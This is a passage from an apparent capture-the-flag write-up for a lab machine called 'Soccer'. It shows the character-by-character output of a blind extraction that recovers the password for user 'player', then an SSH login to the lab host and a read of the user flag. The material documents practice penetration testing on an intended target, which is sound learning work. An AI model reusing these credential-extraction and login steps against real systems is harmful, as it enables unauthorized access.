 Play
Playe
Player
PlayerO
PlayerOf
PlayerOft
PlayerOfth
PlayerOfthe
PlayerOftheM
PlayerOftheMa
PlayerOftheMat
PlayerOftheMatc
PlayerOftheMatch
PlayerOftheMatch2
PlayerOftheMatch20
PlayerOftheMatch202
PlayerOftheMatch2022

{% endhighlight %}

I have now discovered the credentials `player:PlayerOftheMatch2022`.  I ssh in as player and obtain the `user.txt` flag.

{% highlight console %}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ ssh player@10.10.11.194         
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jun 19 19:53:12 UTC 2023

  System load:           0.0
  Usage of /:            70.1% of 3.84GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             230
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:63eb


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Dec 13 07:29:10 2022 from 10.10.14.19
player@soccer:~$ cat user.txt |wc
      1       1      33

{% endhighlight %}
